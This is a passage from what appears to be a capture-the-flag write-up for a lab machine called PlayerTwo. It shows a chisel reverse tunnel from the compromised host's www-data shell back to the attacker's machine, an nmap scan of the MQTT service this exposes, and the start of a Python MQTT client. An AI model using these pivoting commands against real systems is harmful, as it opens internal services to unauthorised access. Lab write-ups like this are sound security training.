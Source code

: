 

    root@kali:/opt/chisel# ./chisel server -p 8000 -reverse
    2020/01/24 06:29:04 server: Reverse tunnelling enabled
    2020/01/24 06:29:04 server: Fingerprint f4:91:8b:ac:f4:5d:6c:6f:c5:04:7d:07:6c:13:09:4a
    2020/01/24 06:29:04 server: Listening on 0.0.0.0:8000...
    2020/01/24 06:29:23 server: proxy#1:R:0.0.0.0:1883=>127.0.0.1:1883: Listening





    www-data@player2:/dev/shm$ chmod +x chisel 
    <./chisel client 10.10.14.11:8000 R:1883:127.0.0.1:1883                      
    2020/01/24 11:29:55 client: Connecting to ws://10.10.14.11:8000
    2020/01/24 11:29:55 client: Fingerprint f4:91:8b:ac:f4:5d:6c:6f:c5:04:7d:07:6c:13:09:4a
    2020/01/24 11:29:55 client: Connected (Latency 15.765675ms)



Now I can run `nmap` against my local 1883 and get the results from 1883
on PlayerTwo:



    root@kali# nmap -sC -sV -p 1883 127.0.0.1
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-24 06:30 EST
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000063s latency).

    PORT     STATE SERVICE VERSION
    1883/tcp open  mqtt
    |_mqtt-subscribe: ERROR: Script execution failed (use -d to debug)

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds



It is an instance of the [MQTT](http://mqtt.org/) , a machine-to-machine
connectivity protocol designed to provide lightweight public/subscript
messaging.

### MQTT

Luckily for me, I had just recently completed a [challenge involving
MQTT](/hackvent2019/hard#day-15) in Hackvent 2019. I grabbed the code I
used for that challenge, and chopped out the password and transport,
basically resetting it to the default connect. After updating the
port/ip, I had the following:



    #!/usr/bin/env python3

    from datetime import datetime
    import paho.mqtt.client as mqtt


    def on_connect(mqttc, obj, flags, rc):
        print(f"Connecting")
        print("rc: " + str(rc))
